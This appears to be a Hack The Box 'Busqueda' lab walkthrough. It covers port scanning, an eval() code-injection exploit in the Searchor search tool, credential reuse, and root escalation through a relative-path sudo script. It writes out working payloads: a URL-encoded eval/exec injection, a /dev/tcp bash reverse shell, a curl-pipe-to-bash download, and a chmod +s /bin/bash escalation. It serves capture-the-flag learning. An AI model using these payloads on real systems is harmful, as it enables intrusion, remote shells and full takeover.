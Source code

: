  ![image](https://user-images.githubusercontent.com/87700008/230741085-ae68684e-fb9c-4a26-a17f-75349dc030eb.png)

https://app.hackthebox.com/machines/537

## Enumeration:

I began by performing a port scan and discovered that ports 22 and 80 were open:
```bash
sudo rustscan -a 10.10.11.208 -- -sC -sV -vv -oN busqueda_nmap
```

```c#
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan results showed that SSH was running on port 22, and the Apache HTTP server was running on port 80. I also discovered a domain named "**searcher.htb**" running on port 80 and added it to the **/etc/hosts** file.

Next, I performed vhost and sub-directory enumeration on the domain but found nothing of interest. Upon further browsing, I discovered that the website was a search tool that provided search results from various search engines on the internet.

![image](https://user-images.githubusercontent.com/87700008/230746368-c6b50271-af99-4b23-9e81-10eed4016f30.png)

To test the functionality of the search feature, I used Burp and observed the response changing when I checked for SQL injection in the query parameter

![image](https://user-images.githubusercontent.com/87700008/232015628-820562f5-dd34-4df5-b3d6-2de04aec009d.png)

![image](https://user-images.githubusercontent.com/87700008/232015895-16b1faa9-075f-4ffd-82d0-c1179bde2e8b.png)

I then used SQLMap to further test the search function, but unfortunately, it did not yield any useful results. 😕

![e79d4ab095244c76be0c42e22382f1b8](https://user-images.githubusercontent.com/87700008/232016168-bd516722-122c-49aa-8391-631c841d3932.png)

Upon further investigation of the website, I discovered the Searchor version and source code on Github:

![image](https://user-images.githubusercontent.com/87700008/232016810-09a178cd-a220-4923-abe2-87e27e67fd03.png)

My research led me to discover that Searchor is vulnerable to [Arbitrary code execution](https://security.snyk.io/vuln/SNYK-PYTHON-SEARCHOR-3166303) prior to version 2.4.2.

In the Snyk blog, I found the pull request [page](https://github.com/ArjunSharda/Searchor/pull/130) where the vulnerable parameter was mentioned in the code:

![image](https://user-images.githubusercontent.com/87700008/232018873-ed9340f2-6cbf-4868-9855-1f4c45d62747.png)

It's clear from the comments that eval() is vulnerable to code execution:

![image](https://user-images.githubusercontent.com/87700008/232019522-22ddcb28-83cd-4d16-9ab5-32b3504c82a4.png)

I found some hints about using eval() from the HTB official discussion and came across a [blog](https://realpython.com/python-eval-function/) that provided some security controls.

```
https://forum.hackthebox.com/t/official-busqueda-discussion/277515/160

Building payloads is an artisan’s work, start simple, just close your quote, close the eval and comment everything out, it will end up as ')#, 
if you get a response, it is working, and you can do little changes to try different values, like passing one more value, as this ',1)#, 
if you are still getting a response and not a blank value, then you can freely change this “one” by an exec() call and do everything you want from it 
```
From the blog, I learned that we can use something like the following code to execute our payloads:

![image](https://user-images.githubusercontent.com/87700008/232022263-65166537-0f67-41f3-addb-ee4a64a3b6fd.png)
```bash
eval(complie("code to execute"), "<String>", "exec") 
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Initial Access:

After multiple attempts and failures, I finally discovered a payload that worked in the URL-encoded format for command execution:

```bash
'%2beval(compile("import+os\nos.system('id')+",'<String>','exec'))%2b'
```

![image](https://user-images.githubusercontent.com/87700008/232024663-9c834a9b-990e-431e-adda-90f928c4022f.png)

For the reverse shell, I tried multiple payloads, but none of them worked perfectly. Then, I followed another process where I hosted a text file containing a bash reverse shell:

```bash
bash -i >& /dev/tcp/10.10.X.X/1331 0>&1
```

After the server downloaded this text file, it executed the shell script from the server end using bash.

I used this final payload, which I referenced from another user's [blog](https://blog.csdn.net/qq_58869808/article/details/130050438) :

```bash
http%3a//127.0.0.1/debug'%2beval(compile('for+x+in+range(1)%3a\n+import+os\n+os.system("curl 10.10.14.41/1337.txt | bash ")','a','single'))%2b'
```

And I successfully gained a reverse shell (pwn3d!🙂)

![image](https://user-images.githubusercontent.com/87700008/232027067-ca80fa0b-e7a1-4474-9f2e-59c168cbc00b.png)

In the '/var/www/app/.git' folder, I found a config file with Cody's credentials, along with the Gitea domain running on searchor.htb:

![image](https://user-images.githubusercontent.com/87700008/232027831-ca0b94df-ec46-423d-98fd-0ab06b51b520.png)

I added the domain 'gitea.searcher.htb' to the host file and loaded the website, where I found a login page. I was able to log in using Cody's credentials.

![image](https://user-images.githubusercontent.com/87700008/232131761-d01b7b76-b5af-4552-a7c6-584203984425.png)

In Gitea, I only found 'app.py' files in all of the commits, but I didn't find anything helpful.

I tried the SSH credentials with Cody's username but didn't succeed. After further enumeration, I tried the same credential with 'svc' because it's the same user with whom we have the remote shell.

Finally, I logged in via SSH using the 'svc' account, which gave me the user flag.(pwn3d!🙂)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privelege Escalation:

To start enumerating for root access, I first checked the sudo permissions and discovered that I could run the **system-checkup.py** script with root privileges using the following command:
```bash
/usr/bin/python3 /opt/scripts/system-checkup.py *
```

After executing the command, I received the following output that displayed the docker processes and allowed me to inspect them:

![image](https://user-images.githubusercontent.com/87700008/232138956-c036b82f-519f-41bb-bae9-6bc632468042.png)

I found two running docker processes, namely **gitea** and **mysql_db**.

![image](https://user-images.githubusercontent.com/87700008/232139320-7e50cf9f-4bf7-47e7-b42d-d955df02abfb.png)

I inspected the content of **mysql_db** and obtained root credentials related to Gitea by executing the following command:
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

![image](https://user-images.githubusercontent.com/87700008/232139819-2ea4ab0d-7f37-4b0a-bfaf-27239b904cfa.png)

Since I had already logged in to Gitea using Cody's credentials, I knew that there was an **administrator** user account. So, I logged in to his account with the credentials obtained from Gitea:

![image](https://user-images.githubusercontent.com/87700008/232140412-9bf68ab8-b654-4e69-b5f1-cda86f52c032.png)

Upon logging in, I found the **system-checkup.py** file in his repository:

![image](https://user-images.githubusercontent.com/87700008/232140739-310c7e52-d8ef-4987-a719-64cb2408df33.png)

By checking the script, I observed that if we used the **full-checkup** argument, it would run the script **/full-checkup.sh**.

![image](https://user-images.githubusercontent.com/87700008/232141411-f86158dd-caa1-4f47-a0cf-8ef55bf61b49.png)

I attempted to run the script with the **full-checkup** argument, but it did not work, possibly due to a missing script.

As I discovered in the **system-checkup.py** script, there was no absolute path to run **full-checkup.sh**. Therefore, I created my own malicious script and added the following command to it:
```bash
#!/bin/bash
chmod +s /bin/bash
```

![image](https://user-images.githubusercontent.com/87700008/232143172-ccc54e75-c7fb-4148-866e-0a28168e7931.png)

Next, I executed the **system-checkup** script again, and it granted me root bash access. With this, I was able to obtain the root flag (pwn3d!🙂).

![image](https://user-images.githubusercontent.com/87700008/232143461-4201f7f2-a19c-4832-85ea-0988b7bfa426.png)

